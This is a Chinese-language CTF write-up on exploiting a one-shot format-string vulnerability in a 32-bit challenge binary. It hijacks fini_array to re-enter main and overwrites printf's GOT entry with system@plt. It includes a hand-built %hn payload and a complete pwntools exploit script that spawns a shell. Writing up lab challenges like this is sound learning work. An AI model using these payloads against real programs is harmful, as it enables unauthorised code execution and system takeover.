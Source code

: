 ## 前言
如果存在格式化字符串，保护机制开的不健全，通常可以劫持 got 表，构造后门函数。然而，如果不存在循环、栈溢出控制 rop 等方式，如果格式化字符串漏洞点正常来说只能执行一次，getshell 是比较困难的。

不过，linux 下的二进制程序，在最后退出时，总会执行一些清扫函数，其中涉及到了 fini_array 这个数据结构。

## 一、fini_array
网上有很多优质博客，具体原理还是各位佬讲的清楚详细（注意静态链接和动态链接的区别）：

简单来说，fini_array 数组存放了函数指针，在退出时，会进行调用。 

因此，面临用户代码区域中之后一次漏洞机会时，可以通过劫持 fini_array 来实现二次利用。

二、题目
![[Pasted image 20240215123259.png]]![[Pasted image 20240215123302.png]]
![[Pasted image 20240215123307.png]]

总结来说：

Main 函数可以触发一次格式化字符串漏洞，但是通过劫持 got 表 getshell 至少需要触发两次
存在 system 的 plt 表 
## 三、解题过程
1. Fini_array 所在位置
通过 linux 自带的工具 readelf 即可

-a , --all 显示全部信息, 等价于 -h -l -S -s -r -d -V -A -I 。
-h , --file-header 显示 elf 文件开始的文件头信息.
-l , --program-headers , --segments 显示程序头（段头）信息 (如果有的话)。
-S , --section-headers , --sections 显示节头信息 (如果有的话)。
-g , --section-groups 显示节组信息 (如果有的话)。
-t , --section-details 显示节的详细信息 ( -S 的)。
-s , --syms , --symbols 显示符号表段中的项（如果有的话）。
-e , --headers 显示全部头信息，等价于: -h -l -S
-n , --notes 显示 note 段（内核注释）的信息。
-r , --relocs 显示可重定位段的信息。
-u , --unwind 显示 unwind 段信息。当前只支持 IA 64 ELF 的 unwind 段信息。
-d , --dynamic 显示动态段的信息。
-V , --version-info 显示版本段的信息。
-A , --arch-specific 显示 CPU 构架信息。
-D , --use-dynamic 使用动态段中的符号表显示符号，而不是使用符号段。
-x , --hex-dump= 以 16 进制方式显示指定段内内容。 Number 指定段表中段的索引, 或字符串指定文件中的段名。
-I , --histogram 显示符号的时候，显示 bucket list 长度的柱状图。
-v , --version 显示 readelf 的版本信息。
-H , --help 显示 readelf 所支持的命令行选项。
-W , --wide 宽行输出。
简单用 readelf -a pwn 即可
![[Pasted image 20240215123343.png]]

2. 格式化字符串漏洞利用 
既然要劫持 fini_array+劫持 got 那么：

`payload=fmtstr_payload (4,{fini_array: main, printf_got: system_plt}, write_size='short')` 

但是会出现超出输入长度限制的情况（byte、short）；或者出现“[!] padding is negative, this will not work on glibc”的报错（int、long）。

因此我们需要自己构造，减少长度。

```
# offset=4
fini_array=0x804979C
printf_got=0x804989c
system_plt=0x80483d0
main=0x8048534
 
# 0x0804 0x8534 0x804 0x83d0
payload=p32(fini_array+2)+p32(fini_array)+p32(printf_got+2)+p32(printf_got)
payload+=(f'%{0x804-0x10}c%4$hn'+f'%{0x8534-0x804}c%5$hn').encode()
payload+=(f'%{0x10000-0x8534+0x804}c%6$hn'+f'%{0x83d0-0x804}c%7$hn').encode()
`````
 
 
其实可以进一步减长度，fini_array和system_plt的三四字节都是0x0804，可以一次c修改两个双字节。

四、EXP 
```python
from pwn import *
from pwn import p32
 
context(arch='i386',log_level='debug')
 
io=process('./pwn')
# io=remote('xxx',xxx)
elf=ELF('./pwn')
io.recvuntil(b'name?\n')
# gdb.attach(io);input()
# offset=4
fini_array=0x804979C
printf_got=0x804989c
system_plt=0x80483d0
main=0x8048534
libc_csu_fini=0x8048620
 
# payload=fmtstr_payload(4,{fini_array:main,printf_got:system_plt},write_size='short')
# 0x0804 0x8534 0x804 0x83d0
payload=p32(fini_array+2)+p32(fini_array)+p32(printf_got+2)+p32(printf_got)
payload+=(f'%{0x804-0x10}c%4$hn'+f'%{0x8534-0x804}c%5$hn').encode()
payload+=(f'%{0x10000-0x8534+0x804}c%6$hn'+f'%{0x83d0-0x804}c%7$hn').encode()
input(str(len(payload)))
io.sendline(payload)
input()
io.recvuntil(b"Welcome to my ctf! What's your name?\n")
io.sendline(b'/bin/sh\x00')
 
io.interactive()
 
```
 
总结
从前过度依赖fmtstr_payload工具，这次也算是手动构造payload，更加了解格式化字符串了
从前做过一题劫持fini_array但是，这次显然没记起来。于是又强化了一下，至少印象不忘